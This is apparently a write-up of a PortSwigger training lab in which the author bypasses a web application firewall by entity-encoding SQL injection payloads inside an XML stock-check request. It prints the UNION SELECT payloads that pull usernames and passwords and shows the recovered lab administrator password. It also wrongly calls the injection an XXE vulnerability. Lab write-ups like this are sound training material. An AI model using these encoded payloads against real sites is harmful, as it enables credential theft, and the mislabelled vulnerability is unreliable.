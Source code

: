 # Write-up: SQL injection with filter bypass via XML encoding
Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding>
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

We can see that their is XML format when we check the stock of any product. We can try to manipulate this XML parser to reveal the users table.
If we manupulate the `<storeId>2</storeId>` or `<storeId>2+1</storeId>`, we can see the stock of the other store. This confirms the XXE vulnerability.

We can find the number of columns using `<storeId>1 UNION SELECT NULL</storeId>`, which flags our query as "Attack Detected". So, we need bypass this WAF.

### Exploitation

We can use Hackvertor extension in Burpsuite to encode our payload. We can use `dec_entities` encode method.
```xml
<storeId>
    <@dec_entities>
        1 UNION SELECT NULL
    </@dec_entities>
</storeId>
```

This results in positive response showing that we have successfully bypassed WAF and also that their is 1 column.
So we can use string concatenation to get the username and password of users.
```xml
<storeId>
    <@dec_entities>
        1 UNION SELECT username || '~' || password FROM users
    </@dec_entities>
</storeId>
```

![alt text](<img/3.png>)

This reveals that the password for user `administrator` is `tnlan5zkbgcsc4mif2gw`.

Hence, the lab is sovled.

![alt text](img/2.png)